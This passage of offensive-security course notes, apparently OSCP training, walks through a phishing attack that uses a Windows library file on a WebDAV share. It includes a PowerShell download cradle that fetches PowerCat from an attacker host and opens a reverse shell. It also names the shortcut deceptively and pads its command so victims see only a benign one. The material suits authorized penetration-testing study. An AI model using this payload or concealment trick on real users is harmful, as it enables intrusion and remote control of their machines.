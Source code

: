 Figure 29: Modified XML code of config.Library-ms

The library file still works when we double-click it, but due to the encoded information in the *serialized* tag, it may not be working on other machines or after a restart. This could result in a situation where our client-side attack fails, because Windows Explorer shows an empty WebDAV share.

To avoid running into any issues when performing this attack, we can reset the file to its original state by pasting the contents of listing 17 into Visual Studio Code. Unfortunately, we need to do this every time we execute the Windows library file. However, this is not a big deal since in most assessments we only need the victim to double-click the file once. Once the file has returned to its original state, we are ready to send the file to our victim.

Now that we have a working Windows library file, we'll need to create the shortcut file. The goal is to start a reverse shell by putting the **.lnk** shortcut file on the WebDAV share for the victim to execute.

Let's create the shortcut on the desktop for the *offsec* user. For this, we'll right-click on the desktop and click on *New* then on *Shortcut*. In the *Create Shortcut* window, we can enter a path to a program along with arguments, which will be pointed to by the shortcut. We'll point the shortcut to PowerShell and use another download cradle to load PowerCat from our Kali machine and start a reverse shell.

We'll use the command we leveraged previously:

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

> Listing 18 - PowerShell Download Cradle and PowerCat Reverse Shell Execution

We'll enter this command into the input field and click *Next*.

![[OffSec/OSCP/z. images/6264f5b0dfdbbf9f0befb3062fecba18_MD5.jpg]]

Figure 28: Creating a Shortcut on CLIENT137

If we expect that our victims are tech-savvy enough to check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.

In the next window, let's enter **automatic\_configuration** as the name for the shortcut file and click *Finish* to create the file.

On our Kali machine, let's start a Python3 web server on port 8000 where **powercat.ps1** is located and start a Netcat listener on port 4444.

Instead of using a Python3 web server to serve Powercat, we could also host it on the WebDAV share. However, as our WebDAV share is writable, AV and other security solutions could remove or quarantine our payload. If we configure the WebDAV share as read-only, we'd lose a great method of transferring files from target systems. Throughout this course, we'll use a Python3 web server to serve our payload for attacks utilizing Windows Library files.

To confirm that the download cradle and the PowerCat reverse shell works, let's double-click the shortcut file on the desktop. After confirming that we want to run the application in the appearing window, the Netcat listener should receive a reverse shell.
